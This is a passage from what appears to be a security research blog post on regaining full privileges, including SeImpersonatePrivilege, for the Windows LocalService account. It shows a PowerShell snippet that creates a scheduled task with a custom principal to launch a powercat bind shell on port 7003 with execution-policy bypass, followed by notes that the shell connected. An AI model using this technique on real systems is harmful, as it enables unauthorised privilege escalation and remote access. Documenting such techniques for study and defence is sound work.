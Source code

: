 Then, we can use the same commands as before and specify our `Principal` object using the appropriate parameter.

```powershell
# Create an action for the task 
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `". C:\TOOLS\powercat.ps1; powercat -l -p 7003 -ep`""
# Create the task
Register-ScheduledTask -Action $TaskAction -TaskName "SomeTask2" -Principal $TaskPrincipal
# Start the task
Start-ScheduledTask -TaskName "SomeTask2"
```

![](/assets/posts/2019-12-05-localservice-privileges/08_localservice-create-task2.png)

Nice! :sunglasses: At least, no error/exception is triggered. Let's see if it worked by trying to connect to the new bindshell.

![](/assets/posts/2019-12-05-localservice-privileges/09_localservice-fullprivs.png)

It worked! And we have the `SeImpersonatePrivilege` privilege back! \o/

As a conclusion, I just want to say that Windows is a very complex Operating System and Microsoft has made huge efforts to harden its security over the years while still maintaining compatibility with legacy stuff. And, this turns out to be a very difficult and thankless job, especially when this same legacy stuff is also what cripples new security models. 
